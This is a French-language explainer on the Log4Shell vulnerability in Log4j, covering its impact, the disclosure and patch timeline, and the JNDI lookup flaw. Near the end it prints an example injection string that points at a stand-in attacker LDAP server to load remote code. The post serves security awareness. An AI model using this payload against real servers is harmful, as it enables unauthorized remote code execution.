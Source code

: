 # Log4J, Log4Shell, LogJam mais kesako ?

On en entend parler de partout.
Sur Twitter, sur LinkedIn, sur les blogs et forums de sécurité, la faille Log4J ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) / [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) pour les intimes) !

## Alors, qu'est ce que log4j et qui est ciblé cette faille.

Log4J est le diminutif de "logging for java", il s'agit d'un outil de journalisation pour les programmes informatiques écrits en java.
C'est l'outil le plus couramment utilisé pour ce besoin, la plupart des programmes java l'utilisent et c'est justement la popularité de cet outil, qui fait trembler internet ces derniers jours...
On le retrouve PARTOUT !! Apple, Amazon, IBM, Cloudflare, Twitter, Steam, Minecraft et [bien d'autre...](https://github.com/NCSC-NL/log4shell)

## Quels sont les impacts de cette faille ?

La faille log4j et l'une des plus grosses failles de sécurité découverte cette dernière décennie. Le score de criticité de celle-ci est au plus haut (CVSS 10/10) et permet une compromission complète de la machine cible.

Elle permet une [RCE ( Remote Code Execution )](https://en.wikipedia.org/wiki/Arbitrary_code_execution) c'est à dire, l'exécution de code, souvent malicieux, à distance.
Oui oui, sans authentification, sans mot de passe, juste avec un message dans un chat (ou n'importe quelle entrée utilisateur, comme un champ dans un formulaire), on demande au serveur, d'exécuter du code.


## Comment en est-on arrivé là ?

Le jeudi 9 décembre, la faille a été publiée sur internet, [aux yeux de tous](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
Sans laisser le temps aux développeurs de log4j de préparer la publication d'un patch de correction...

Le vendredi 10 décembre, la CVE est déclarée : https://nvd.nist.gov/vuln/detail/CVE-2021-44228
Un premier patch de correction de log4j est publié, mais la correction est incomplète et l'exploit toujours faisable.
Un second patch de correction est publié pour corriger la faille, mais il ne faudra que quelques jours aux pirates pour la déjouer,
ce qui donne lieu le 14 décembre à une nouvelle CVE (CVE-2021-45046)

Rapidement, une nouvelle version de log4j sort (2.16.0) et doit fixer de manière définitive ces deux CVE.

D'après Matthew Prince, CEO de Cloudflare, la première tentative d'exploitation de cette faille sur leurs infrastructures date du [1er décembre a 4:36:50 UTC](https://twitter.com/eastdakota/status/1469800951351427073) soit 9 jours avant que la CVE soit déclarée. Les recherches de possibles compromissions doivent donc être ciblées a partir de cette date.

Le vecteur d'attaque qui a été utilisé (la méthode), ne date pas de décembre 2021
[Des conférences en 2013 et 2016 lors de la blackhat US](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) avaient déjà mis en lumière ce vecteur d'attaque.
Mais personne ne l'avait testé sur log4j...

## Mais alors concrètement, comment ça marche ?

La faille réside dans l'implémentation du module "Java Naming and Directory Interface" de log4j.
Ce module permet de charger dynamiquement du code distant via plusieurs protocoles comme ldap, rmi, dns, etc...

Lorsque log4j va vouloir journaliser une donnée utilisateur (un message dans un chat, un champ dans un formulaire,  ..) plutôt que prendre la donnée au format texte pour la journaliser, log4j va l'interpréter en langage java résultant de la faille de sécurité.

Il est donc possible, de préparer un message spécifique pour injecter du code malveillant.
Par exemple, la commande suivante dans le chat du jeux Minecraft, va connecter toutes les personnes au serveur ldap "attackerserver.com" puis exécuter la fonction java "ExploitPayload"
```bash
${jndi:ldap://attackerserver.com:1389/ExploitPayload}
```

![](https://www.stormshield.com/wp-content/uploads/log4shell-1-1024x410.png)